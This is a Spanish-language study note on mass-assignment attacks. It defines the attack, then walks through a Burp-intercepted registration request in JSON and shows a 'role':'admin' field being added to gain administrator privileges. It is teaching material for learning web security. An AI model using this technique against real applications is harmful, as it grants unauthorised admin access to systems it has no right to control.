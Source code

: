 # What is Mass-Assingment Attack

El **ataque de asignación masiva** o **Mass-Assignment Attack** se basa en la manipulación de parámetros de entrada de una solicitud HTTP para crear o modificar campos en un objeto de modelo de datos en la aplicación web. En lugar de agregar nuevos parámetros, los atacantes intentan explotar la funcionalidad de los parámetros existentes para modificar campos que no deberían ser accesibles para el usuario. 

Por ejemplo en una aplicación web de gestión de usuarios, un formulario de registro puede tener campos para el nombre usuario, correo electrónico y contraseña. Sin embargo, si la acpliación utiliza una biblioteca o marco que permite la asignación masiva de parámetros, el atacante podría manipular la solicitud HTTP para agregar un parámetro adicional, como el nivel de privilegio del usuario. De esta manera, el atacante podría registrarse como un usuario con privilegios elevados, simplemente agregando un parámetro adicional a la solicitud HTTP.

----
# Explotation

Para explotar esta vulnerabilidad, una vez más, pueden existir muchos casos, ya sea por intuición, por puro intento, entre otras, por ejemplo....

Tenemos una página web en la cual existe una sección de "create account" en donde interceptando la petición con [[Burpsuite]] vemos que se tramita una estructura tal que asi: 

```json
{
	"email":"dobliuw2@dobliuw.com",
	 "password":"dobliuw123",
	 "passwordRepeat":"dobliuw123",
	 "securityQuestion":{
		 "id":2,
		 "question":"Mother's maiden name?",
		 "createdAt":"2023-05-16T18:46:09.595Z",
		 "updatedAt":"2023-05-16T18:46:09.595Z"
	 },
	 "securityAnswer":"dobliuw"
 }
```

Y a la hora de crear el usuario, es decir, dejar tramitar esta petición, vemos una respuesta tal que así: 

```json

{
	"status":"success",
	"data":{
		"username":"",
		"deluxeToken":"",
		"lastLoginIp":"0.0.0.0",
		"profileImage":"/assets/public/images/uploads/defaultAdmin.png",
		"isActive":true,
		"id":22,
		"email":"dobliuw2@dobliuw.com",
		"role":"user",
		"updatedAt":"2023-05-16T18:50:27.165Z",
		"createdAt":"2023-05-16T18:50:27.165Z",
		"deletedAt":null
	}
}
```

Por lo que al ver todos los parámetros de un usuario, podriamos probar si la web es vulnerable a **Mass-Assignment Attack** intentando asignar un rol, el cual podría ser "admin" en la creación del usuario, modificando el JSON original, agregando el campo: 

```json
{
	....,
	"role":"admin",
	....
}
```

